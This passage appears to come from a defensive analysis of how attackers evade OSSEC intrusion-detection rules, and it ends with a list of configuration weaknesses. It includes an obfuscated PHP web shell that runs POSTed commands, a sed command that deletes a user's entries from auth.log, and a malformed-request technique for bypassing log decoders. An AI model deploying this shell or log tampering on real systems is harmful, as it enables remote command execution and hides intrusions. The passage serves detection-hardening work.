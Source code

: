 **Example 2: Web Shell Detection Evasion**

*   **Default OSSEC Rule (Simplified):**  Triggers on the presence of known web shell signatures in web server logs (e.g., `<?php eval($_POST[cmd]); ?>`).
*   **Evasion Technique:** Obfuscation (Encoding and String Manipulation).
*   **Hypothetical Scenario:** The attacker uploads a web shell with the following code:

    ```php
    <?php
    $a = "eva";
    $b = "l";
    $c = $_POST;
    $d = "cmd";
    $e = $a . $b;
    $f = $c[$d];
    $e($f);
    ?>
    ```

    This code achieves the same functionality as the simple `eval($_POST[cmd]);` but is less likely to be detected by a signature-based rule.  Further obfuscation could involve Base64 encoding parts of the code.

**Example 3: Log Tampering**

*   **Default OSSEC Rule (Simplified):** Triggers on modifications to critical system log files (e.g., `/var/log/auth.log`, `/var/log/syslog`).
*   **Evasion Technique:**  Using `sed` or other tools to selectively remove lines from the log file.
*   **Hypothetical Scenario:**  The attacker gains root access and uses `sed -i '/attacker_username/d' /var/log/auth.log` to remove all log entries related to their username.  A simple rule that triggers on *any* modification to `auth.log` would still detect this, but a more specific rule looking for specific patterns might be bypassed.  A more sophisticated attacker might use a tool that modifies the file's timestamps to make the changes appear older.

**Example 4:  Decoder Bypass (Hypothetical)**

*   **Default OSSEC Rule:** Triggers on specific error messages in Apache logs.
*   **Evasion Technique:**  Crafting a malformed HTTP request that causes the Apache server to generate an error message that is not properly parsed by the OSSEC decoder.
*   **Hypothetical Scenario:** The attacker sends a request with an extremely long or unusual header that causes the Apache error log to contain a truncated or improperly formatted error message.  The OSSEC decoder might fail to extract the relevant information, preventing the rule from triggering.

### 2.3 Weaknesses in OSSEC Rule Configurations

Several common weaknesses can make OSSEC deployments vulnerable to rule evasion:

*   **Over-Reliance on Default Rules:**  Using only the default OSSEC rules without customization or augmentation.  Default rules are a good starting point, but they are often generic and may not cover all attack vectors.
*   **Lack of Regular Rule Updates:**  Failing to update OSSEC rules to address new attack techniques and vulnerabilities.  Attackers constantly evolve their methods, so rules must be updated accordingly.
*   **Insufficient Rule Testing:**  Deploying custom rules without thorough testing.  Poorly written rules can have unintended consequences, including false positives and false negatives.
*   **Ignoring Anomaly Detection:**  Focusing solely on signature-based rules and neglecting anomaly detection.  Anomaly detection can help identify attacks that evade known signatures.
*   **Poor Log Management:**  Not properly managing and protecting log files.  If attackers can tamper with logs, they can easily evade detection.
*   **Lack of Integration with Threat Intelligence:** Not using threat intelligence feeds to inform rule creation and updates.
*   **Insufficient Alerting and Response Procedures:** Even if an alert is triggered, a slow or ineffective response can allow the attacker to achieve their objectives.
